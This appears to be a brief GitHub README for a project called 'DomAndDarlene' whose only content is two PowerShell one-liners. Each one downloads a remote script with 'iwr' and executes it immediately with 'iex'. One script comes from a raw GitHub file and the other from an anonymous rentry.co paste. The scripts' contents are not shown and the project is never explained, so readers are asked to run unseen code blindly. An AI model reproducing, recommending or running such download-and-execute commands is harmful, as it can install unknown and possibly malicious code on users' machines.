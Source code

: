 # DomAndDarlene
Run Away with me

## Powershell:
`iex (iwr raw.githubusercontent.com/RavenCraftInitaitives/DomAndDarlene/main/test1.ps1).Content`

Or,

`iex (iwr rentry.co/HotCarla/raw).content`
